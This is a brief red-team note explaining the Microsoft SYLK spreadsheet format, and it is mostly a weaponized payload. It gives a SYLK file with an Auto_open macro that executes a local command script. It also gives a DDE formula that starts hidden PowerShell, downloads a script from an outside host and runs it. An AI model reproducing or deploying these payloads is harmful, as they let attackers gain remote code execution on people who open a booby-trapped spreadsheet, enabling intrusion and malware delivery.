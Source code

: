 # Symbolic link (SYLK)

`SYLK` is a Microsoft file format typically used to exchange data between applications, specifically spreadsheets. SYLK files conventionally have a .slk suffix

### Create paylod

```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("E:\Initial-Access\Macro\screen.cmd")
C;X1;Y102;K0;EHALT()
E   
```

```
=cmd|'/c powershell.exe -w hidden IEX (New-Object Net.WebClient).DownloadString(\"http://nooranetred.com/screen.cmd\");start-process screen.cmd'!_xlbgnm.A1
```
